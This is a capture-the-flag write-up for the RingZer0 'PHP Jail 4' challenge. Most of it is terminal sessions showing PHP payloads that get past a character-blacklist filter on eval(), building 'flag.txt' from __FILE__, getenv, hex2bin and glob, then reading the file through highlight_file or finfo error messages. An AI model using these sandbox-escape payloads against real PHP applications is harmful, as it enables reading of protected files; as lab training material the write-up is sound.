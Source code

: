 # **PHP Jail 4**

SSH to the service, password is flag of `PHP Jail 3` challenge.

```shell=
ubuntu@ubuntu-virtual-machine:~$ ssh level4@challenges.ringzer0team.com -p 10226 
The authenticity of host 
level4@challenges.ringzer0team.com's password:[PHP Jail 3 Flag]

RingZer0 Team Online CTF

PHP Jail Level 4:
Current user is uid=1003(level4) gid=1003(level4) groups=1003(level4)

Flag is located at /home/level4/flag.txt

Challenge PHP code:
-----------------------------

WARNING: the PHP interpreter is launched using php -c php.ini jail.php.
The php.ini file contain "disable_functions=exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,readfile,require,require_once,include,include_once,file"

<?php
array_shift($_SERVER['argv']);
$var = implode(" ", $_SERVER['argv']);

if($var == null) die("PHP Jail need an argument\n");

function filter($var) {
	if(preg_match('/(\'|\"|`|\.|\$|\/|a|c|s|require|include)/i', $var)) {
		return false;
	}
	return true;
}
if(filter($var)) {
	eval($var);
	echo "Command executed";
} else {
	echo "Restricted characters has been used";
}
echo "\n";
?>

-----------------------------
Your input:
```

Sad, `highlight_file()` & `glob("fl*txt")[0]` won't work if you simply insert file name by typing in it, seens `'` & `"` are forbidden.

But if we use some method that create the file name and return as string type, they will work again.

First, we need the `a` & `.` in `flag.txt`.

```shell=
Your input:
print_r(__FILE__);
/home/level4/jail.php(14) : eval()'d codeCommand executed
```

`a` & `.` are already in `/home/level4/jail.php`, but we still need `/` to seperate it.

```shell=
Your input:
print_r(getenv(HOME)[0]);
PHP Notice:  Use of undefined constant HOME - assumed 'HOME' in /home/level4/jail.php(14) : eval()'d code on line 1
/Command executed
```

I didn't find the way to extract `/` from `__FILE__`, so I change it to `getenv(HOME)[0]`.

Now, let's use `/` to parse `/home/level4/jail.php` for `a` & `.`.
 
```shell=
Your input:
print_r(explode(getenv(HOME)[0],__FILE__));
PHP Notice:  Use of undefined constant HOME - assumed 'HOME' in /home/level4/jail.php(14) : eval()'d code on line 1
Array
(
    [0] => 
    [1] => home
    [2] => level4
    [3] => jail.php(14) : eval()'d code
)
Command executed

Your input:
print_r(explode(getenv(HOME)[0],__FILE__)[0]);
PHP Notice:  Use of undefined constant HOME - assumed 'HOME' in /home/level4/jail.php(14) : eval()'d code on line 1
Command executed

Your input:
print_r(explode(getenv(HOME)[0],__FILE__)[3][1]);
PHP Notice:  Use of undefined constant HOME - assumed 'HOME' in /home/level4/jail.php(14) : eval()'d code on line 1
aCommand executed

Your input:
print_r(explode(getenv(HOME)[0],__FILE__)[3][4]);
PHP Notice:  Use of undefined constant HOME - assumed 'HOME' in /home/level4/jail.php(14) : eval()'d code on line 1
.Command executed
```

`explode(getenv(HOME)[0],__FILE__)[0]` gets `null` for `implode()` to concate all charaters.

`explode(getenv(HOME)[0],__FILE__)[3][1]` gets charater `a`.

`explode(getenv(HOME)[0],__FILE__)[3][4]` gets symbol `.`.

So, the final payload should be `highlight_file(implode(explode(getenv(HOME)[0],__FILE__)[0], [fl,explode(getenv(HOME)[0],__FILE__)[3][1],g,explode(getenv(HOME)[0],__FILE__)[3][4],t,x,t]));

```shell=
Your input:
highlight_file(implode(explode(getenv(HOME)[0],__FILE__)[0], [fl,explode(getenv(HOME)[0],__FILE__)[3][1],g,explode(getenv(HOME)[0],__FILE__)[3][4],t,x,t]));
PHP Notice:  Use of undefined constant HOME - assumed 'HOME' in /home/level4/jail.php(14) : eval()'d code on line 1
PHP Notice:  Use of undefined constant fl - assumed 'fl' in /home/level4/jail.php(14) : eval()'d code on line 1
PHP Notice:  Use of undefined constant HOME - assumed 'HOME' in /home/level4/jail.php(14) : eval()'d code on line 1
PHP Notice:  Use of undefined constant g - assumed 'g' in /home/level4/jail.php(14) : eval()'d code on line 1
PHP Notice:  Use of undefined constant HOME - assumed 'HOME' in /home/level4/jail.php(14) : eval()'d code on line 1
PHP Notice:  Use of undefined constant t - assumed 't' in /home/level4/jail.php(14) : eval()'d code on line 1
PHP Notice:  Use of undefined constant x - assumed 'x' in /home/level4/jail.php(14) : eval()'d code on line 1
PHP Notice:  Use of undefined constant t - assumed 't' in /home/level4/jail.php(14) : eval()'d code on line 1
<code><span style="color: #000000">
FLAG-XXXXXX<br /></span>
</code>Command executed
```

# ※Another method:

Using `hex2bin()` & `glob()` to create `flag.txt`.

Then I needed some function to read the contents from `flag.txt`.

Let's find a class with a constructor that takes a filename as an argument and make it return error message, `finfo()`.

```shell=
Your input:
new finfo(0,glob(hex2bin(hex2bin(3261)))[0]);
PHP Notice:  finfo::finfo(): Warning: offset `FLAG-XXXXXX' invalid in /home/level4/jail.php(14) : eval()'d code on line 1
PHP Notice:  finfo::finfo(): Warning: type `FLAG-XXXXXX' invalid in /home/level4/jail.php(14) : eval()'d code on line 1
PHP Warning:  finfo::finfo(): Failed to load magic database at '/home/level4/flag.txt'. in /home/level4/jail.php(14) : eval()'d code on line 1
Command executed
```